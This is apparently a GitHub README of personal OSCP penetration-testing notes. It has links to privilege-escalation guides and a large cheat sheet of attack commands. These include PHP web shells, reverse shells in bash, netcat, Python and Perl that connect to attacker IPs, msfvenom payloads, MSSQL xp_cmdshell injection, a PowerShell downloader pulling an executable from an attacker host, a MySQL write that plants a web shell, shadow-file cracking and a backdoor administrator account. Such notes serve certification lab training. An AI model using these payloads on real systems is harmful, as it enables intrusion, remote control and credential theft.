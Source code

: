 # oscp_notes
My Personal OSCP Notes

Welp, just my personal OSCP notes. I am pretty sure these can help you get VERY high score in your exam. So why not try them out?

I am still organizing all my scripts and stuff. Please stay tune to the repo.

## Good Readups
### Linux
[(Outdated) Basic Linux Priviledge Checklist - https://www.blackmoreops.com/2017/01/17/find-linux-exploits-by-kernel-version/](https://www.blackmoreops.com/2017/01/17/find-linux-exploits-by-kernel-version/)
[Basic Linux Priviledge Escalation Checklist - https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/)
[Exploit SUID/SGID - https://null-byte.wonderhowto.com/how-to/hack-like-pro-finding-potential-suid-sgid-vulnerabilities-linux-unix-systems-0158373/](https://null-byte.wonderhowto.com/how-to/hack-like-pro-finding-potential-suid-sgid-vulnerabilities-linux-unix-systems-0158373/)


### Windows
[Windows Exploit Suggester - https://resources.infosecinstitute.com/windows-exploit-suggester-an-easy-way-to-find-and-exploit-windows-vulnerabilities/](https://resources.infosecinstitute.com/windows-exploit-suggester-an-easy-way-to-find-and-exploit-windows-vulnerabilities/)
[PowerSploit - Post-exploit framework - https://github.com/PowerShellMafia/PowerSploit](https://github.com/PowerShellMafia/PowerSploit)
[nishang - Post-exploit Toolkit - https://github.com/samratashok/nishang](https://github.com/samratashok/nishang)
[Some Windows privesc techniques - https://pentest.blog/windows-privilege-escalation-methods-for-pentesters/](https://pentest.blog/windows-privilege-escalation-methods-for-pentesters/)


### Database
[SQL Injection Techniques - https://www.exploit-db.com/docs/41273.pdf](https://www.exploit-db.com/docs/41273.pdf)
[Useful notes - https://www.netsparker.com/blog/web-security/sql-injection-cheat-sheet/](https://www.netsparker.com/blog/web-security/sql-injection-cheat-sheet/)


## Command Notes
### NMap

    # Scanning TCP ports 1 - 65535 + verbose + OS detection + timeout settings + treat all host online
    nmap -v -p- -A -T4 -sV -Pn <IP>


### Metasploit

    # Shell listener for reverse payload (Server side)
    use exploit/multi/handler
    set PAYLOAD windows/meterpreter/reverse_tcp
    set LHOST 192.168.45.31
    set LPORT 1337
    set ExitOnSession false
    exploit -j -z


### Shellcodes

    # PHP Meterpreter reverse payload
    msfvenom -p php/meterpreter/bind_tcp LHOST=10.11.0.51 LPORT=1337 -f php > meterp.php

    # PHP error display (useful for testing shells)
    ini_set('display_errors', 1);
    ini_set('display_startup_errors', 1);
    error_reporting(E_ALL);

    # PHP Simple Shell
    <?php echo system($_GET['cmd']);?>
    <?php @system($_GET['c'])?>

    # bash reverse shell
    bash -i >& /dev/tcp/10.11.0.51/1337 0>&1

    # netcat (nc) reverse shell (simple)
    /bin/sh | nc <your IP> <port>

    # netcat (nc) evil reverse shell (require specific version)
    nc -e /bin/bash <your IP> <port>

    # Python reverse shell
    import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((“192.168.38.31”,1339));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);

    # Perl reverse shell
    perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"10.11.1.246:1337");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'

    # Python shell construction (useful for TOO simple shell)
    python -c 'import pty;pty.spawn("/bin/bash")'

    # MSSQL No DUMP shell
    DECLARE @c varchar(3000);set @c=0x70696e6731302e31312e302e3531;EXEC master..xp_cmdshell @c--

    # MSSQL DUMP shell
    DECLARE @cVARCHAR(8000);SET @c=0x64697220433a5c;INSERT INTO sqlmapoutput(data) EXEC master…xp_cmdshell @c–

### Payload hosting method

    # Python
    python -m SimpleHTTPServer 8080


### Downloader

    # PowerShell
    powershell “(new-object System.Net.WebClient).DownloadFile(‘http://10.11.0.51:4949/yo.exe’,'yo.exe’)”


### MySQL Techniques
    # Load local file
    LOAD DATA LOCAL INFILE “/etc/passwd” INTO TABLE yolo

    # Clear and Load local file
    TRUNCATE yolo;LOAD DATA LOCAL INFILE “/etc/phpmyadmin/apache.conf” INTO TABLE yolo;

    # Basic into dumpfile
    select “<?php echo system($_GET['cmd']);?>” INTO dumpfile ‘/var/www/html/yolo.php’


### Random Knowledge

    # Mount file system
    mount -t cifs -o user=bob,sec=ntlm,dir_mode=0077 “//10.11.1.136/Bob Share” /mnt/cifs

    # John The Ripper
    unshadow 10.11.1.141_passwd 10.11.1.141_shadow >10.11.1.141_tocrack
    john --word=/usr/share/wordlists/rockyou.txt 10.11.1.141_tocrack --fork=30

    # Windows add new administrator account
    net user yolo whysoserious /add
    net localgroup Administrators yolo /add

    # Find broken UID files
    find / -user root -perm -4000 -exec ls -ldb {} ; > /tmp/uids

    # GCC cross compile
    gcc -m32 -Wl,–hash-style=both -o exploit exploit.c

    # SSH Local Bind Tunnel (Bind 1337 on client (local))
    ssh -L 127.0.0.1:1337:localhost:443 root@victim

    # SSH Remote Bind Tunnel (Bind 1337 on target (remote)) [Useful for tunneling into another network]
    ssh -R 127.0.0.1:1337:10.30.0.3:443 root@victim

    # SSH Dynamic Tunnel (Useful for VPN usage)
    ssh -D9999 root@victim